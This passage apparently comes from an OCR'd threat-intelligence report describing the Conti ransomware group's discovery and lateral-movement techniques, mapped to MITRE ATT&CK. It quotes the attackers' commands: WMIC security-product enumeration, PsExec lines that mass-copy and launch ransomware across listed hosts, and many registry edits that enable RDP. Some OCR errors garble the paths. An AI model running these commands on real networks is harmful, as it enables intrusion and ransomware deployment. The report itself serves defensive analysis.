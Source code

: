 | Software Discovery: Security Software Discovery T1518.001   | • wmic /namespace:\\root\SecurityCenter2 PATH AntiVirusProduct GET /value • wmic /namespace:\\root\SecurityCenter2 PATH AntiSpywareProduct GET /value • wmic /namespace:\\root\SecurityCenter2 PATH FirewallProduct GET /value   |
|-------------------------------------------------------------|----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| Network Share Discovery T1135                               | • powershell.exe Invoke-ShareFinder -CheckShareAccess.                                                                                                                                                                           |
| File and Directory Discovery T1083                          | Manual search for files on the device, as described in more detail in the Execution section                                                                                                                                      |
| System Service Discovery T1007                              | Using the SharpUp utility to obtain information about registered services                                                                                                                                                        |
| Network Service Scanning T1046                              | • nmap                                                                                                                                                                                                                           |

## Lateral movement

The attackers moved within the victim's infrastructure in various ways. More often than not, they launched Cobalt Strike beacon instances using the popular PsExec utility. The utility was also used to mass-copy and launch Conti ransomware in organizations.

Example of use:

| COMMAND                                                                                                                                           | DESCRIPTION                                                                                 |
|---------------------------------------------------------------------------------------------------------------------------------------------------|---------------------------------------------------------------------------------------------|
| PsExec.exe /accepteula @C:\Intel\cc.txt -u %domain%\Administrator -p %password% cmd /c COPY"\\%server_name%\Intel\update.exe" "C:\ windows\temp\" | Copies the update.exe file to the Temp directory on all devices in the C:\Intel\cc.txt list |
| PsExec -accepteula -d @C:\Intel\1.txt -u %domain%\Administrator -p %password% cmd /c \\%ip%\Intel\c.exe -size 30 -m                               | Launches ransomware on all devices in the C:\Intel\1.txt list from a remote server          |

The abovementioned CVE-2020-1472 (Zerologon) vulnerability, which is described in detail in Exploitation for Privilege Escalation T1068 , is one of the vulnerabilities used for lateral movement.

Lastly, Conti enabled the RDP protocol on some of the infected devices. The hackers probably used RDP to move across the victim's infrastructure. The protocol was enabled as follows:

-  REG ADD 'HKLM\SYSTEM\CurrentControlSet\Control\к' /t REG\_ DWORD /v 'fDenyTSConnections' /d 0 /f
-  REG ADD 'HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server' /t REG\_DWORD /v 'fSingleSessionPerUser' /d 0 /f
-  REG ADD 'HKLM\SYSTEM\CurrentControlSet\Control\ Terminal Server\Licensing Core' /t REG\_DWORD /v 'EnableConcurrentSessions' /d 1 /f
-  REG ADD 'HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon' /t REG\_DWORD /v 'EnableConcurrentSessions' /d 1 /f
-  REG ADD 'HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon' /t REG\_DWORD /v 'AllowMultipleTSSessions' /d 1 /f
-  REG ADD 'HKLM\SOFTWARE\Policies\Microsoft\Windows NT\ Terminal Services' /t REG\_DWORD /v 'MaxInstanceCount' /d 5 /f
-  REG ADD 'HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server' /t REG\_DWORD /v 'AllowTSConnections' /d 1 /f

-  REG ADD 'HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server' /t REG\_DWORD /v 'TSAdvertise' /d 1 /f
-  REG ADD 'HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server' /t REG\_DWORD /v 'IdleWinStationPoolCount' /d 1 /f
-  REG ADD 'HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server' /t REG\_DWORD /v 'TSAppCompat' /d 0 /f
-  REG ADD 'HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server' /t REG\_DWORD /v 'TSEnabled' /d 1 /f
-  REG ADD 'HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server' /t REG\_DWORD /v 'TSUserEnabled' /d 0 /f
-  REG ADD 'HKLM\SYSTEM\CurrentControlSet\Control\ Terminal Server\WinStations\RDP-Tcp' /t REG\_DWORD /v 'fEnableWinStation' /d 1 /f
-  REG ADD 'HKLM\SYSTEM\CurrentControlSet\Control\ Terminal Server\WinStations\RDP-Tcp' /t REG\_DWORD /v 'MaxInstanceCount' /d 0xffffffff /f
-  REG ADD 'HKLM\SYSTEM\ControlSet001\Control\Terminal Server\ Licensing Core' /t REG\_DWORD /v «PolicyAcOff' /d 5 /f
-  sc config termservice start= auto
-  net start termservice /y
